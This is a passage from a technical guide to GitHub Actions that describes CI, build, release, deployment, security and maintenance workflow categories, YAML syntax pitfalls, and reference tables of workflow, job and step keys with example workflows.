

CI workflows for pull requests belong in Zone 1. They must not need secrets. Anything that publishes or deploys belongs in Zones 2 and 3 and triggers only from protected refs. Most serious GitHub Actions incidents are violations of this separation.

### 6.4 CI workflows versus deployment workflows

| Aspect | CI workflow | Deployment workflow |
|---|---|---|
| Goal | Produce evidence | Change a running system |
| Idempotent? | Yes; re-run freely | Not necessarily; re-run can redeploy |
| Concurrency | Cancel outdated runs (`cancel-in-progress: true`) | Serialize, never cancel a running deploy |
| Trigger | Any branch or PR | Protected branches, tags, manual with inputs |
| Secrets | None or minimal | Cloud access, environment-scoped |
| Failure means | Fix the code | Consider rollback, page someone |
| Artifacts | Reports, logs | Reference to an immutable artifact by digest |

---

## Chapter 7. The Fifteen Categories in Depth

Every category below answers the same questions: the problem it solves, when it runs, what jobs and actions it uses, its inputs/outputs/artifacts, secrets and permissions, failure behavior, security concerns, a production example, common mistakes, and how it interacts with other workflows. Complete YAML for most of them is in Chapter 44.

### A. Code Quality Workflows

- **Problem and why.** Catch defects and style drift that reviewers should not spend time on: formatting, lint rules, static analysis, type errors, dependency and license problems, committed secrets.
- **When and events.** `pull_request` and `merge_group` (blocking); optionally `push` to main (to keep the default branch scan fresh).
- **Typical jobs and actions.** For Java: Spotless or Checkstyle, SpotBugs or PMD, `mvn -B verify` for compilation and compiler warnings. For Node: ESLint, Prettier, `tsc --noEmit`. For Python: Ruff, mypy. For Go: `gofmt`, `go vet`, `golangci-lint`. Cross-language: `actions/dependency-review-action`, license checkers, `gitleaks`.
- **Inputs, outputs, artifacts.** Input is the source tree. Output is pass/fail plus annotations and optionally SARIF or reports as artifacts.
- **Secrets and permissions.** None. `permissions: contents: read`. Do not give quality jobs access to secrets.
- **Failure behavior.** Fail the job; make it a required check when the signal is reliable.
- **What blocks and what only informs.**

| Blocks a PR | Informational only |
|---|---|
| Formatting (auto-fixable), lint errors, type errors, compile errors | Complexity trends, TODO counts |
| New high/critical vulnerabilities introduced by the PR | Pre-existing medium/low findings (track separately) |
| Committed secrets | Style suggestions with a high false-positive rate |
| License violations you have a policy for | Coverage delta, unless you enforce a floor |

- **Security.** Static analysis of untrusted code must run without secrets. Keep scanner actions pinned; scanners themselves were the target of real supply-chain attacks (Chapter 37).
- **Production example.** Spotless + SpotBugs + dependency review in one `ci.yml` (Examples 1 and 2).
- **Common mistakes.** Making noisy checks required (people learn to ignore or bypass CI); running formatters that *modify* files and try to push from a fork PR (the token is read-only); no baseline for a legacy code base, so day-one findings block everyone.
- **Interactions.** Feeds the required-check gate; findings uploaded as SARIF appear in the Security tab and are consumed by Category L.

### B. Test Workflows

- **Problem and why.** Prove behavior. Tests are layered by cost and scope; the pipeline should run cheap ones first.

| Layer | Scope | Speed | Where it runs |
|---|---|---|---|
| Unit | One class/function, no I/O | Seconds | Every PR, first |
| Database / repository | Real DB via Testcontainers or a service container | Tens of seconds | Every PR |
| Integration | Several components plus real dependencies (DB, Redis, queue) | Minutes | Every PR (parallelised) |
| API / contract | HTTP contract against a running instance, or Pact/Spring Cloud Contract | Minutes | Every PR or on merge |
| End-to-end | Whole system in a deployed environment | Slow | After deploy to dev/staging, not on every PR |

- **When and events.** `pull_request` / `merge_group` for fast layers; a post-deploy workflow for e2e (Category O).
- **Typical jobs and actions.** Runtime setup (`setup-java`, `setup-node`, `setup-python`, `setup-go`) with dependency caching, service containers, test execution, report publishing, coverage upload.
- **Inputs, outputs, artifacts.** Test reports (JUnit XML), coverage (JaCoCo, lcov), logs and screenshots on failure. Upload with `if: ${{ !cancelled() }}` so reports exist for failed runs, which is when you need them.
- **Secrets and permissions.** Prefer none. Tests needing real cloud credentials should not run on fork PRs. Use containers and fakes (LocalStack, Testcontainers) instead.
- **Failure behavior.** Failing tests fail the job. Consider `fail-fast: false` in matrices so you see all failures.
- **Flaky test handling.** (1) Measure: track failures that pass on re-run. (2) Quarantine: tag flaky tests, run them in a non-blocking job, and open a ticket. (3) Fix root causes (time, ordering, shared state, ports, sleeps). (4) Avoid blanket retries. A per-test retry (for example Maven Surefire's `rerunFailingTestsCount`) is a *bandage that must be visible in reports*; never retry the entire job silently.
- **Parallel execution.** Split by module or by test class list across a matrix; join with a single gate job (Chapter 16).
- **Security.** Tests run untrusted code. Use `pull_request`, never `pull_request_target`, to run them.
- **Common mistakes.** Uploading reports only on success; unpinned service container images (`postgres:latest`); tests depending on internet services; sharing state between matrix legs.
- **Interactions.** Consumes build outputs when you use "build then test the same artifact." Produces coverage that Category L or quality gates consume.

### C. Build Workflows

- **Problem and why.** Turn source into runnable output: a JAR, a binary, frontend assets, a package, a container image, release archives.
- **When and events.** On `pull_request` to *verify* the build works. On `push` to main or tags to *produce* the official artifact.
- **Typical jobs and actions.** Language toolchain setup, `mvn -B -DskipTests package`, `npm run build`, `go build`, `docker/build-push-action`.
- **Reproducibility.** Aim that the same commit yields an equivalent artifact: pin the toolchain (`java-version`, `go-version`), use lockfiles (`package-lock.json`, `go.sum`, Maven's dependency management), pin base images (by digest for production), pin action versions (by SHA), set a fixed build timestamp where the tool supports it (Maven's `project.build.outputTimestamp`), and avoid network fetches of unpinned resources during the build.
- **Artifact integrity.** Record the digest (SHA-256) of the artifact; use *provenance attestations* so consumers can verify "this artifact was produced by workflow X in repo Y at commit Z" (Chapter 29).
- **Inputs, outputs, artifacts.** Inputs: commit SHA and build args. Outputs: artifact identity (digest, version) as job outputs. Artifacts: JAR/binaries as workflow artifacts (short-lived) *and* pushed to a registry (durable).
- **Secrets and permissions.** Build verification: none. Publishing: only `packages: write` or OIDC to the registry, granted to a separate job.
- **Failure behavior.** Fail hard. A build that silently produces a partial artifact is worse than none.
- **Security.** The build job runs code from dependencies. Do not expose deploy credentials to it. Separate *build* from *publish* jobs where feasible.
- **Common mistakes.** Rebuilding the artifact at deploy time; embedding `git describe` output that differs between runs; unpinned base images; leaving the build's `~/.m2` credentials in the image layer.
- **Interactions.** Output feeds Category D (publish), E (container), F (deploy).

### D. Artifact Workflows

- **Problem and why.** A build result must live *somewhere* that later stages, and people, can fetch reliably and verify.
- **What an artifact is.** Any file or bundle produced by a workflow: reports, binaries, JARs, images, SBOMs.
- **Four different storages** (do not confuse them):

| Storage | Purpose | Lifetime | Suitable as your production source of truth? |
|---|---|---|---|
| **GitHub Actions artifacts** | Pass files between jobs; download reports | Retention days (default 90, configurable) | **No.** Ephemeral, tied to a run |
| **Container registry** (GHCR, ECR, Artifact Registry, ACR, Docker Hub) | Store and serve container images by tag and digest | Until deleted; you set retention policies | **Yes** for images |
| **Package registry** (GitHub Packages, Maven Central, npm, PyPI, private Nexus/Artifactory) | Versioned libraries and packages | Long-lived | **Yes** for libraries |
| **External artifact repository** (Artifactory, Nexus, S3 with versioning) | Central, governed store with promotion, retention, scanning, audit | Long-lived | **Yes**, especially for compliance |

- **Immutable artifacts.** Once published, a given version or digest must never change. Tags like `latest` are mutable pointers. Digests (`sha256:...`) are immutable content addresses.
- **Artifact promotion.** Instead of rebuilding for each environment, *promote* the same artifact: dev → staging → production by referencing the same digest, optionally re-tagging or moving it between repositories (`snapshots` → `releases`).
- **Typical events.** `push` to main and tags.
- **Secrets and permissions.** Registry credentials via OIDC or `GITHUB_TOKEN` with `packages: write`.
- **Common mistakes.** Treating GitHub Actions artifacts as the permanent home; deleting registry images that running environments still reference; publishing mutable `-SNAPSHOT` builds to production.
- **Interactions.** Consumed by Category F. Chapters 14 and 29 go deeper.

### E. Container Workflows

- **Problem and why.** Modern backends ship as container images. The image is the deployable unit, so the container pipeline is the most important artifact pipeline.
- **Components.** A `Dockerfile`; BuildKit (the modern build engine); `docker/setup-buildx-action` (Buildx builder); `docker/build-push-action`; a registry; tagging and versioning; scanning; SBOM; signing and provenance; digest-based deployment; multi-platform builds; layer caching.
- **When and events.** PR: build (no push) and scan. Push to main: build, scan, push, sign, attest.
- **Typical jobs.** `metadata` (compute tags and labels), `build` (buildx with cache), `scan` (Trivy, Grype or Docker Scout), `sign/attest`, `sbom`.
- **Image tagging (recommended set).** An immutable tag per commit (`sha-<shortsha>`), a semantic version tag on releases (`1.4.2`), and never deploy by `latest`. **Deploy by digest.**
- **Inputs, outputs.** Inputs: commit, build args. **Outputs: the image digest**, which is the identity you promote and deploy.
- **Secrets and permissions.** OIDC to a cloud registry or `packages: write` for GHCR; `id-token: write` and `attestations: write` for provenance.
- **Failure behavior.** Scan failure above a severity threshold blocks promotion, not necessarily the merge.
- **Security.** Base image provenance; scanner action pinning; do not build untrusted fork code with registry-write credentials.
- **Common mistakes.** Deploying `:latest`; not using layer caching (15-minute builds); root user in container; secrets in `ARG` or layers; scanning a *different* image than the one deployed.
- **Interactions.** Consumes Category C output; hands a digest to Category F.

### F. Deployment Workflows

- **Problem and why.** Change a running environment safely, repeatably and auditably.
- **When and events.** `push` to main (automatic to dev/staging), `workflow_dispatch` (manual, parameterised), `release` (tag-triggered), `workflow_call` (reusable deploy core).
- **Environments.** development, staging, production, each a GitHub *environment* with its own protection rules, secrets/variables and (via OIDC) its own cloud role.
- **Typical jobs.** `deploy` (with `environment:`), `smoke-test`, `rollback`, `notify`. Actions: cloud auth, `kubectl`, `helm`, `aws-cli`, `ssh`.
- **How deployment differs from CI.** See the table in 6.4: serialize, do not cancel, gated, credentials, idempotency, rollback plan.
- **Inputs, outputs.** Input: an artifact identity (image digest), target environment. Output: deployment URL, status.
- **Secrets and permissions.** `id-token: write` for OIDC; `contents: read`; `deployments: write` if you manually create deployment records. Secrets come from the *environment*, released only after approval.
- **Failure behavior.** Define it explicitly: auto-rollback vs alert-and-wait. A failed health check after production deploy should *fail the workflow and trigger rollback*.
- **Security.** Only protected branches/tags may deploy; environment branch policies; no fork code; required reviewers with "prevent self-review".
- **Common mistakes.** Deploying from any branch; no concurrency control (two deploys race); no post-deploy verification; a deploy job that rebuilds.
- **Interactions.** Consumes E; followed by O; reports to K.

### G. Release Workflows

- **Problem and why.** Turn a tested commit into a named, versioned, communicated release: tag, GitHub Release, changelog, attached artifacts, versioned container tag.
- **Build vs release vs deploy.** *Build* makes an artifact. *Release* gives a specific artifact a version identity and announcement. *Deploy* runs an artifact in an environment. A release can be deployed many times; one deployment may run any build.
- **Semantic versioning.** MAJOR.MINOR.PATCH. Automate with conventional commits and a tool such as release-please or semantic-release, or tag manually and let the workflow react.
- **When and events.** `push` of a tag `v*.*.*`, or `workflow_dispatch` with a version input, or a merged "release PR."
- **Typical jobs.** Validate tag format; verify the tagged commit already passed CI and produced an image; create the GitHub Release with generated notes; retag the existing image (`1.4.2`) *without rebuilding*; attach SBOM/provenance; trigger production deployment.
- **Secrets and permissions.** `contents: write` (create release), `packages: write` (retag), scoped narrowly to the release job.
- **Failure behavior.** Idempotent and re-runnable: if the release exists, update it; never move an existing tag.
- **Security.** Restrict who can push tags (tag rulesets); do not auto-release from untrusted branches.
- **Common mistakes.** Rebuilding at release time so the released artifact differs from the tested one; force-moving tags; giving every job `contents: write`.
- **Interactions.** Consumes D/E; triggers F (production).

### H. Infrastructure Workflows

- **Problem and why.** Infrastructure (networks, databases, clusters, IAM) is code and should follow the same review-and-automate discipline.
- **Typical workflows.** `terraform fmt -check`, `validate`, `plan` on PR; `apply` after merge; Kubernetes manifest validation (kubeconform); `helm lint` and `helm template`; IaC scanners (Checkov, tfsec/Trivy config, kube-linter); drift detection on a schedule; GitOps handoff (commit to a config repo that Argo CD or Flux reconciles).
- **Safe production pattern.**
  1. PR runs `plan` with a **read-only** cloud role and posts the plan.
  2. Merge to main triggers `apply` with a **write** role, in a protected environment with reviewers.
  3. Apply uses the **exact saved plan** where feasible, and a per-environment concurrency group so two applies never overlap. Remote state with locking is mandatory.
- **Secrets and permissions.** Separate plan and apply cloud roles via OIDC (`sub` for `pull_request` versus `environment:production`). Plan output can contain sensitive values, so treat plan artifacts as sensitive.
- **Failure behavior.** Failed apply must page a human; never auto-retry apply blindly.
- **Common mistakes.** One admin role for plan and apply; applying from PR branches; parallel applies on one state; posting sensitive plan output publicly.
- **Interactions.** Provides infrastructure that Category F deploys onto; drift detection is Category J.

### I. Dependency Automation Workflows

- **Problem and why.** Dependencies rot and accumulate vulnerabilities. Automate discovery and updates; keep humans reviewing.
- **Tools.** **Dependabot** (native to GitHub): version updates for Maven, Gradle, npm, pip, Go modules, Docker, Terraform, and *GitHub Actions* themselves; security updates; alerts. **Renovate** is a popular alternative with more configuration power.
- **When and events.** Dependabot opens pull requests on its own schedule; your CI runs on those PRs like any other.
- **Important security detail (official).** Workflow runs triggered by Dependabot pull requests behave like fork runs: a read-only `GITHUB_TOKEN` and no repository secrets. Design PR checks so they do not need secrets.
- **Typical jobs.** The normal CI, plus `dependency-review-action` (fails PRs that introduce vulnerable or disallowed dependencies), lockfile regeneration checks.
- **Common mistakes.** Auto-merging major updates without tests; ignoring Actions updates (which are also supply-chain risk); never grouping updates so you drown in PRs.
- **Interactions.** Feeds Category B/A checks; overlaps with L.

### J. Scheduled and Maintenance Workflows

- **Problem and why.** Some work is time-based, not change-based: nightly full security scans, dependency audits, cleanup of old images or caches, report generation, certificate expiry checks, stale-resource detection, periodic synthetic health checks, Terraform drift detection.
- **Events.** `schedule` (cron, UTC by default; an IANA `timezone` can be set), often plus `workflow_dispatch` so you can run it manually.
- **Behaviors you must know (official).** Scheduled runs use the **latest commit on the default branch**; the shortest interval is 5 minutes; runs can be delayed under load (especially on the hour); GitHub may disable scheduled workflows in public repositories after a period of no repository activity.
- **Secrets and permissions.** Give minimal permissions. A cleanup job needs `packages: write` or a cloud role restricted to deleting specific resources.
- **Failure behavior.** A silent scheduled failure is worse than none: send a failure notification (Category K).
- **Common mistakes.** Everything scheduled at `0 0 * * *` (thundering herd, delays); no manual trigger; destructive cleanup without a dry-run mode.
- **Interactions.** Reports flow to K; findings to L.

### K. Notification Workflows

- **Problem and why.** Humans must learn about things that need attention, and *only* those.
- **Channels.** Slack, Discord, Microsoft Teams (incoming webhooks or Workflows), email, and paging systems for incidents.
- **Good design.**

| Notify on | Do not notify on |
|---|---|
| Production deployment started, succeeded, failed | Every successful PR CI run |
| Failed runs on the default branch | Failures on feature branches (developers see these in the PR) |
| Rollback triggered | Routine successful scheduled jobs |
| Scheduled job failures | Every retry |
| Approval requests waiting too long | Anything the author already sees inline |

- **Implementation options.** A reusable `notify.yml` called at the end of deployment workflows, or a separate workflow triggered by `workflow_run` on failure.
- **Secrets.** Webhook URLs are secrets (anyone with the URL can post). Store as environment or repository secrets. Pass them through `env`, never inline in scripts.
- **Security.** Never put attacker-controlled text (PR titles, commit messages, branch names) into a shell command; pass it through environment variables and JSON-encode it (Chapter 35).
- **Common mistakes.** Notification spam that trains people to mute the channel; missing links to the failed run; posting secrets from logs.
- **Interactions.** Consumes status from F, J and others.

### L. Security Workflows

- **Problem and why.** Continuously detect vulnerabilities in your code, dependencies, containers and infrastructure, and produce evidence about how artifacts were built.
- **Building blocks.** **CodeQL** (code scanning, including scanning your *workflow files*); **secret scanning** and push protection; **dependency scanning** (Dependabot alerts, dependency review); **container scanning** (Trivy, Grype, Docker Scout); **IaC scanning**; **SBOM generation** (SPDX or CycloneDX via Syft/`anchore/sbom-action` or build attestations); **artifact signing and provenance** (`cosign`, GitHub artifact attestations, SLSA); **OpenSSF Scorecard** for repository hygiene.
- **Events.** `pull_request` (fast, blocking on high severity), `push` to main, and `schedule` (deep scans, catching *newly disclosed* vulnerabilities in unchanged code).
- **Permissions.** `security-events: write` to upload SARIF; `contents: read`; `attestations: write` and `id-token: write` for provenance.
- **Failure behavior.** Block on new critical/high findings introduced by the change; track the backlog separately with owners and deadlines.
- **Security.** Scanners are high-value targets. Pin them, and run them with minimal access.
- **Common mistakes.** Scanning only at PR time (misses new CVEs); scanning a non-production image; ignoring scan results because thresholds are too strict on day one.
- **Interactions.** Gates category E promotion; publishes to the Security tab; feeds K.

### M. Documentation Workflows

- **Problem and why.** Docs rot faster than code. Treat docs as build outputs: validate and publish them automatically.
- **Examples.** Markdown lint, link checking (lychee), OpenAPI spec validation and API documentation generation, doc site build and publish (GitHub Pages).
- **Events.** `pull_request` with `paths` filters on docs; `push` to main to publish.
- **Permissions.** Publishing to Pages needs `pages: write` and `id-token: write`.
- **Common mistakes.** Making external link checks required (third-party outage blocks your merges); publishing docs from PRs.
- **Interactions.** Path filtering (Chapter 23) prevents backend tests from running on docs-only changes. Beware the required-check pitfall in Chapter 43.

### N. Repository Automation Workflows

- **Problem and why.** Reduce toil: label PRs by changed paths, triage issues, close stale issues, welcome contributors, manage release notes.
- **Events.** `issues`, `issue_comment`, `pull_request` (or `pull_request_target` for labeling forks), `schedule` (stale bot).
- **Security.** This is the category most likely to tempt you into `pull_request_target` or `issue_comment` with write access, both privileged and both handling attacker-controlled text. Follow Chapters 10 and 36: treat every title, body and comment as hostile input; never check out or execute PR code in these workflows.
- **Permissions.** Minimal write scopes on the specific job (`issues: write`, `pull-requests: write`).
- **Common mistakes.** Bot workflows with `write-all`; command injection via issue titles; infinite loops because the bot's own actions retrigger the workflow (actions using `GITHUB_TOKEN` do not trigger new runs, but PAT-based ones do).
- **Interactions.** Independent of the build pipeline.

### O. Deployment Verification Workflows

- **Problem and why.** "The deploy step exited 0" is not the same as "the service works."
- **Techniques.** Smoke tests (a few critical requests), health/readiness checks, version checks (does `/actuator/info` report the commit you deployed?), post-deploy integration tests, synthetic monitoring, and *rollback triggers* driven by failures.
- **Events.** As a job after deploy in the same run, or a reusable `smoke-tests.yml` called with the environment URL. A `deployment_status` trigger is an alternative when deployments are created by external systems.
- **Failure behavior.** Failure blocks promotion to the next environment and, for production, triggers rollback.
- **Secrets and permissions.** Test credentials scoped to the environment; read-only where possible.
- **Common mistakes.** No retries or warm-up allowance (false failures during rollout); testing the load balancer instead of the new version; smoke tests that pass against the *old* pods still serving traffic.
- **Interactions.** Between F stages; feeds K and rollback.

---

# Part 3: GitHub Actions Fundamentals

## Chapter 8. YAML and Workflow Syntax

### 8.1 YAML traps that bite workflow authors

| Trap | Example | Fix |
|---|---|---|
| Version numbers parsed as numbers | `python-version: 3.10` becomes `3.1` | Quote: `'3.10'` |
| Expressions starting with `!` | `if: !cancelled()` is invalid YAML | `if: ${{ !cancelled() }}` |
| Multi-line strings | `run: \|` keeps newlines; `>` folds them into spaces | Use `\|` for scripts |
| Indentation | Tabs are illegal; 2 spaces is standard | Use an editor with YAML linting and `actionlint` |
| Colons in values | `name: Deploy: prod` breaks | Quote the string |
| Unquoted `${{ }}` in some keys | Fine for scalars, but quote when a value starts with `{` | Quote defensively |

Workflow files must be `.yml` or `.yaml` in `.github/workflows/` (official). Use `actionlint` locally and in CI to catch mistakes before GitHub does.

### 8.2 Anatomy of a production workflow

```yaml
name: CI                                   # display name in the Actions tab
run-name: CI for ${{ github.ref_name }}    # per-run title (github and inputs contexts only)

on:                                        # what starts the workflow
  pull_request:
    branches: [main]
  merge_group:
  workflow_dispatch:

permissions:                               # least privilege for GITHUB_TOKEN
  contents: read

concurrency:                               # one active run per PR/branch; cancel outdated
  group: ci-${{ github.workflow }}-${{ github.event.pull_request.number || github.ref }}
  cancel-in-progress: true

env:                                       # non-secret defaults for all jobs
  MAVEN_OPTS: -Xmx1g

defaults:
  run:
    shell: bash

jobs:
  test:
    runs-on: ubuntu-24.04
    timeout-minutes: 20
    steps:
      - uses: actions/checkout@v7
        with:
          persist-credentials: false
      - uses: actions/setup-java@v6
        with:
          distribution: temurin
          java-version: '21'
          cache: maven
      - run: mvn -B -ntp verify
```

**What it does.** Runs on PRs to `main`, in merge queues, and manually. It has read-only repository access, cancels superseded runs for the same PR, and fails jobs that exceed 20 minutes. **Why structured this way:** every safety property (permissions, concurrency, timeout, pinned runner image) is declared explicitly rather than inherited from defaults that may change. **Production note:** `persist-credentials: false` stops `actions/checkout` from leaving the token in `.git/config` where later steps could read it. Set it unless a later step must `git push`.

### 8.3 Syntax reference: workflow-level keys

For each key: meaning and purpose, syntax, mistake and caveat.

| Key | What it means and why it exists | Syntax | Common mistake / caveat |
|---|---|---|---|
| `name` | Human label in the UI and in checks. Defaults to the file path. | `name: CI` | Renaming a workflow renames the check that branch protection matches. Rename carefully. |
| `run-name` | Title of each run. Useful to include actor, target environment or version. | `run-name: Deploy ${{ inputs.env }} by @${{ github.actor }}` | Only `github` and `inputs` contexts. |
| `on` | Events that trigger the workflow. | `on: push` or map form | With multiple events, each must be a key with a trailing colon when configured. Details in Chapter 10. |
| `on.<event>.branches` / `branches-ignore` | Filter by branch names (glob). | `branches: [main, 'release/**']` | Cannot use both `branches` and `branches-ignore` for one event. Use `!` patterns with `branches`. |
| `on.push.tags` / `tags-ignore` | Filter by tag. | `tags: ['v*.*.*']` | With only `tags` defined, branch pushes do not trigger. |
| `paths` / `paths-ignore` | Run only when matching files change. | `paths: ['src/**', 'pom.xml']` | Not evaluated for tag pushes. **A workflow skipped by path/branch filters leaves required checks "Pending" and blocks merging** (official). |
| `on.schedule` | Cron triggers (UTC default; optional `timezone`). | `- cron: '17 3 * * 1-5'` | Runs on the default branch's latest commit. Minimum 5 minutes. |
| `on.workflow_dispatch.inputs` | Manual trigger with typed inputs (`string`, `boolean`, `number`, `choice`, `environment`). | see 10.4 | Only fires when the file is on the default branch. Max 25 top-level inputs. |
| `on.workflow_call` | Makes the workflow reusable. | Chapter 21 | Inputs types only `boolean`, `number`, `string`. |
| `permissions` | Scopes of the job `GITHUB_TOKEN`. | `permissions: contents: read` | Setting any scope sets the unspecified ones to `none`. |
| `env` | Environment variables for all jobs/steps. | `env: FOO: bar` | Not for secrets. Cannot reference other `env` keys in the same map. |
| `defaults.run` | Default `shell` and `working-directory` for `run` steps. | `defaults: run: working-directory: svc` | No expressions or contexts allowed here. |
| `concurrency` | Limit simultaneous runs sharing a group. | Chapter 19 | Group names are case-insensitive; must be unique per intent. |
| `cache-mode` | Grants read/write/write-only/none access to the Actions cache at workflow or job level. | `cache-mode: read` | Explicit `write` on low-trust triggers reintroduces cache poisoning risk. |
| `jobs` | The job map. | below | At least one job. |

### 8.4 Syntax reference: job-level keys

| Key | Meaning and why | Syntax | Caveat |
|---|---|---|---|
| `jobs.<id>` | Unique job identifier (letters, digits, `-`, `_`; start with a letter or `_`). Referenced by `needs`. | `build:` | Renaming an id breaks `needs` and required-check names. |
| `name` | Display name. | `name: Unit tests (${{ matrix.java }})` | Required checks match the *display name*. |
| `needs` | Jobs that must succeed first. | `needs: [lint, test]` | If a needed job fails or is skipped, dependents are skipped unless `if` uses a status function. |
| `if` | Condition to run the job. | `if: github.ref == 'refs/heads/main'` | Evaluated *before* matrix expansion; a skipped job is reported as success for checks. |
| `runs-on` | Runner label(s) or group. | `runs-on: ubuntu-24.04` | Array = must match *all* labels. `ubuntu-latest` moves over time. |
| `container` | Run all steps in a container. | `container: image: eclipse-temurin:21-jdk` | Linux only. Pin by digest for production. |
| `services` | Sidecar containers (databases, caches) for the job. | Chapter 17 | Reached by hostname (service id) in container jobs, `localhost` + mapped port otherwise. |
| `strategy.matrix` | Generate job variants. | Chapter 16 | Max 256 jobs per matrix. |
| `strategy.fail-fast` | Cancel siblings on first failure (default `true`). | `fail-fast: false` | Default hides other failures. |
| `strategy.max-parallel` | Cap concurrency of matrix legs. | `max-parallel: 2` | Use to protect shared resources. |
| `outputs` | Values exposed to dependent jobs. | `outputs: digest: ${{ steps.build.outputs.digest }}` | Strings only; 1 MB per job; secrets are dropped. |
| `environment` | Target environment; triggers protection rules and environment secrets. | `environment: name: production url: ${{ steps.d.outputs.url }}` | `deployment: false` uses secrets without creating a deployment record. |
| `concurrency` | Job-level concurrency group. | `concurrency: group: deploy-prod` | See Chapter 19. |
| `permissions` | Job-level token scopes. | | Overrides workflow-level. |
| `timeout-minutes` | Kill after N minutes (default 360). | `timeout-minutes: 15` | Always set. The default is six hours of billed hanging. |
| `continue-on-error` | Job failure does not fail the run. | | Dangerous; see Chapter 20. |
| `defaults.run` | Job-level shell defaults. | | |
| `env` | Job-level variables. | | |
| `uses` / `with` / `secrets` | Call a reusable workflow (job-level, no `steps`). | `uses: ./.github/workflows/deploy.yml` | Chapter 21. |
| `snapshot` | Generate a custom runner image from the job. | | Larger-runner feature; see runner docs. |

### 8.5 Syntax reference: step-level keys

| Key | Meaning | Syntax | Caveat |
|---|---|---|---|
| `id` | Name to reference `steps.<id>.outputs`. | `id: build` | Unique per job. |
| `name` | Display name. | | |
| `if` | Step condition. Implicit `success()` unless a status function appears. | `if: ${{ failure() }}` | Secrets cannot be used directly in `if`. Copy to `env` first. |
| `uses` | Run an action: `owner/repo@ref`, `owner/repo/path@ref`, `./local/path`, `docker://image:tag`. | `uses: actions/checkout@<sha>` | Pin to a full SHA in production. |
| `run` | Shell commands (max 21,000 characters). | `run: mvn -B verify` | Each `run` is a new shell process. |
| `with` | Inputs to an action. | | Become `INPUT_*` environment variables. |
| `env` | Step-level variables. | | Use to pass untrusted values safely to shell. |
| `shell` | Choose shell. | `shell: bash` | `bash` adds `-eo pipefail`; default `bash -e` does not include `pipefail`. |
| `working-directory` | Directory for `run`. | | Must exist. |
| `timeout-minutes` | Per-step timeout. | | |
| `continue-on-error` | Step failure does not fail the job. | | Sets `outcome=failure`, `conclusion=success`. |
| `background`, `wait`, `wait-all`, `cancel`, `parallel` | Run steps concurrently within a job (currently documented). | `background: true` | Max 10 concurrent background steps. Not inside composite actions. |

**Background step example** (start the application, test it, stop it):

```yaml
steps:
  - uses: actions/checkout@v7
  - uses: actions/setup-java@v6
    with: { distribution: temurin, java-version: '21', cache: maven }
  - run: mvn -B -ntp -DskipTests package
  - name: Start service
    id: app
    run: java -jar target/app.jar --server.port=8080
    background: true
  - name: Wait for readiness
    run: curl --fail --retry 30 --retry-delay 2 --retry-connrefused http://localhost:8080/actuator/health/readiness
  - name: API tests
    run: ./scripts/api-tests.sh http://localhost:8080
  - name: Stop service
    cancel: app
```

If your runner or GitHub Enterprise Server version predates this feature, use `nohup ... &` with a PID file, or Docker Compose.

---

## Chapter 9. Jobs, Steps, Actions and Shell Commands

### 9.1 Job dependency graphs

```yaml
jobs:
  lint:  { runs-on: ubuntu-24.04, steps: [{ run: echo lint }] }
  unit:  { runs-on: ubuntu-24.04, steps: [{ run: echo unit }] }
  integ: { runs-on: ubuntu-24.04, needs: unit, steps: [{ run: echo integ }] }
  build: { runs-on: ubuntu-24.04, needs: [lint, integ], steps: [{ run: echo build }] }
```



`lint` and `unit` start together. `integ` waits for `unit`. `build` waits for `lint` and `integ`. Order jobs to give **fast feedback first**: cheap checks early, expensive checks after.

### 9.2 Actions: three kinds

| Kind | Runs as | Good for | Trade-off |
|---|---|---|---|
| **JavaScript action** | Node runtime on the runner (`runs.using: node24` in current actions) | Fast, cross-OS, official actions | You maintain a build step (`dist/`) |
| **Docker container action** | A container image | Any language/tooling | Linux only; slower start |
